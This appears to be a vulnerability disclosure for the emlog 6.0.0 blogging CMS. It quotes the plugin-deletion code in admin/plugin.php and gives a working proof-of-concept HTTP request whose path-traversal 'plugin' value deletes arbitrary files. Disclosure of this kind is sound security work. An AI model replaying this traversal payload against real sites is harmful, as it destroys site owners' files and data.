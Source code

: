 emlog has any file deletion vulnerability

vulnerability in admin/plugin.php line 65:

```
if ($action == 'del') {
    LoginAuth::checkToken();
    $Plugin_Model = new Plugin_Model();
    $Plugin_Model->inactivePlugin($plugin);
    $pludir = preg_replace("/^([^\/]+)\/.*/", "$1", $plugin);
    if (true === emDeleteFile('../content/plugins/' . $pludir)) {
        $CACHE->updateCache('options');
        emDirect("./plugin.php?activate_del=1");
    } else {
        emDirect("./plugin.php?error_a=1");
    }
}
```
Get any filepath as "plugin" , will delete it.
The token parameter constructed is the value of "EM_TOKENCOOKIE_..." in the cookie.
Login management background and view /admin/plugin.php?action=del
GET plugin=anyfile,like ..\index.php something.
POC:
```
GET /admin/plugin.php?action=del&plugin=..\..\include\index.php&token=5e050e3e99b8a10851d49f0fd45883d5 HTTP/1.1
Host: 192.168.234.128
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=889tag4mo48geajtiopkmr3cr7; EM_AUTHCOOKIE_ob0n96t5QV8HTVmXGtXUMPsWTSWNWSLZ=admin%7C%7Cae6c6d2833a616b48d91c52c029cb63e; EM_TOKENCOOKIE_ea9ab1c72af2adc42fabf01c92478f75=5e050e3e99b8a10851d49f0fd45883d5
Upgrade-Insecure-Requests: 1
```
![image](https://user-images.githubusercontent.com/32258440/67936446-c5337d00-fc06-11e9-8184-1b0ad80f7ee3.png)
![image](https://user-images.githubusercontent.com/32258440/67936492-d7adb680-fc06-11e9-99d6-ff9ce7d153f1.png)


An issue was discovered in emlog 6.0.0
There is a any file deletion vulnerability that via /admin/plugin.php?action=del&plugin=..\..\include\index.php&token=5e050e3e99b8a10851d49f0fd45883d5
